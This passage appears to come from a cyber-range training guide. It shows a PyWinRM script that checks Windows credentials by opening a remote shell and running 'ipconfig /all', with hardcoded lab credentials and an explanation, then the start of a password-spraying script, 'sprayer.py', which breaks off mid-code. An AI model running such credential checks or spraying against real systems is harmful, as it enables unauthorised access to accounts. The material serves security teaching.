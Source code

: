 #### Code

```python
#!/usr/bin/python3
import winrm

testip = '172.16.4.2'
testusername = 'trainee'
testpassword = 'CyberTaining1!'
testdomain = 'energy'

def check_pwd(targetip, targetusername, targetpassword, targetdomain):
    Connection = winrm.Protocol(
        endpoint='http://{}:5985/wsman'.format(targetip),
        transport='ntlm',
        message_encryption='always',
        username=r'{}\{}'.format(targetdomain, targetusername),
        password='{}'.format(targetpassword))
    try:
        shell_id = Connection.open_shell()
        command_id = Connection.run_command(shell_id, 'ipconfig', ['/all'], console_mode_stdin=True, skip_cmd_shell=False)
        std_out, std_err, status_code = Connection.get_command_output(shell_id, command_id)
        Connection.cleanup_command(shell_id, command_id)
        Connection.close_shell(shell_id)
    except winrm.exceptions.InvalidCredentialsError:
        return False
    return False if std_err else True

passwordvalidity = check_pwd(testip, testusername, testpassword, testdomain)
print("Password {} is {} for user {}".format(testpassword, 'valid' if passwordvalidity else 'invalid', testusername))
```

#### Explanation

- The script uses the PyWinRM library to authenticate to a Windows machine using WinRM (Windows Remote Management).
- Variables like testip, testusername, etc., store the target details.
- The check_pwd function tries to connect using the credentials:
    - If successful, it returns True.
    - If authentication fails (triggers InvalidCredentialsError), it returns False.
    - If some other error, also returns False.
- The bottom lines call the function and print if the password is valid or invalid for the user.

---

### 2. sprayer.py – Password Spraying Script

#### Code

```python
#!/usr/bin/python3
import winrm
import argparse

def check_pwd(targetip, targetusername, targetpassword, targetdomain):
    Connection = winrm.Protocol(
        endpoint='http://{}:5985/wsman'.format(targetip),
        transport='ntlm',
        message_encryption='always',
        username=r'{}\{}'.format(targetdomain, targetusername),
        password='{}'.format(targetpassword))
    try:
        shell_id = Connection.open_shell()
```